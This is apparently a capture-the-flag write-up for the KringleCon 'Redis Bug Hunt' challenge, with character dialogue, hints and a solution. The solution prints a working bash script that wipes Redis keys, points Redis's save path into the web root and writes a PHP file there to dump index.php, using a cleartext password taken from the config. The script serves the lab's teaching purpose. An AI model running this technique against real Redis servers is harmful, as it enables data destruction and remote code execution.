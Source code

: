 # Redis Bug Hunt

**Elf**: Holly Evergreen<br/>
**Direct link**: [redis terminal](https://docker2020.kringlecon.com/?challenge=redis&id=3c930cbf-5e9a-4e51-b71a-67e9607ebb03)<br/>
**Objective**: [Broken Tag Generator](../objectives/o8.md)


## Request

!!! quote "Holly Evergreen"
    Hi, so glad to see you! I'm Holly Evergreen.<br/>
    I've been working with this Redis-based terminal here.<br/>
    We're quite sure there's a bug in it, but we haven't caught it yet.<br/>
    The maintenance port is available for curling, if you'd like to investigate.<br/>
    Can you check the source of the `index.php` page and look for the bug?<br/>
    I read something online recently about remote code execution on Redis. That might help!<br/>
    I think I got close to RCE, but I get mixed up between commas and plusses.<br/>
    You'll figure it out, I'm sure!


## Hints

??? hint "Redis RCE"
    [This](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) is kind of what we're trying to do...


## Solution

??? abstract "Welcome message"
    ```text
    We need your help!!

    The server stopped working, all that's left is the maintenance port.

    To access it, run:

    curl http://localhost/maintenance.php

    We're pretty sure the bug is in the index page. Can you somehow use the
    maintenance page to view the source code for the index page?
    ```

The solution is based on the Webshell example in the [Redis pentesting guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) provided by Holly Evergreen. We need to trick Redis into creating a PHP script in the web server root folder that reads and writes the contents of `index.php` to a non-PHP file (so we can retrieve it without the contents being parsed by the PHP interpreter). 

We could use the suggested `curl` approach, but then we'd need to URL-encode any special characters so they are properly parsed by the `maintenance.php` script before being forwarded to the `redis-cli` command line tool. Since `/etc/redis/redis.conf` contains the password in cleartext anyway (i.e., *R3disp@ss*), we can use `redis-cli` directly instead.

!!! note "Redis DB compression"
    Ensure that `rdbcompression` is disabled in `/etc/redis/redis.conf`. Saving the Redis database to disk with compression enabled will also compress the PHP code stored inside the DB, making the code unreadable for the PHP interpreter and preventing the PHP instructions from being executed.

To automate the process create a [`redis_rce.sh`](../tools/hints/h8/redis_rce.sh) script containing the following commands.

```bash linenums="1"
#!/usr/bin/env bash

# Redis password from /etc/redis/redis.conf
RP='R3disp@ss'

# PHP code to copy /var/www/html/index.php to /var/www/html/f.txt
PHP="<?php file_put_contents('f.txt', file_get_contents('index.php')); ?>"

echo -n "Delete all keys from all databases: "
redis-cli --raw -a $RP flushall 2>/dev/null

echo -n "Disable Redis DB compression to leave PHP code as-is: "
redis-cli --raw -a $RP config set rdbcompression no 2>/dev/null

echo -n "Set output folder to /var/www/html/ web server root: "
redis-cli --raw -a $RP config set dir /var/www/html 2>/dev/null

echo -n "Set the DB filename to redis_rce.php: "
redis-cli --raw -a $RP config set dbfilename redis_rce.php 2>/dev/null

echo -n "Create 'rce' key containing PHP code: "
redis-cli --raw -a $RP set rce "$PHP" 2>/dev/null

echo -n "Save Redis DB to /var/www/html/redis_rce.php: "
redis-cli --raw -a $RP save 2>/dev/null

echo "Execute 'redis_rce.php' via GET request."
curl http://localhost/redis_rce.php 2>/dev/null

echo "Download http://localhost/f.txt"
curl http://localhost/f.txt --output f.txt 2>/dev/null

echo "Display f.txt"
cat -A f.txt
```

Execute the `redis_rce.sh` script on the host to find the bug. :scream:

![Bug found](../img/hints/h8/bug_found.png)


## Response

!!! quote "Holly Evergreen"
    See? I knew you could to it!<br/>
    I wonder, could we figure out the problem with the Tag Generator if we can get the source code?<br/>
    Can you figure out the path to the script?<br/>
    I've discovered that enumerating all endpoints is a really good idea to understand an application's functionality.<br/>
    Sometimes I find the Content-Type header hinders the browser more than it helps.<br/>
    If you find a way to execute code blindly, maybe you can redirect to a file then download that file?
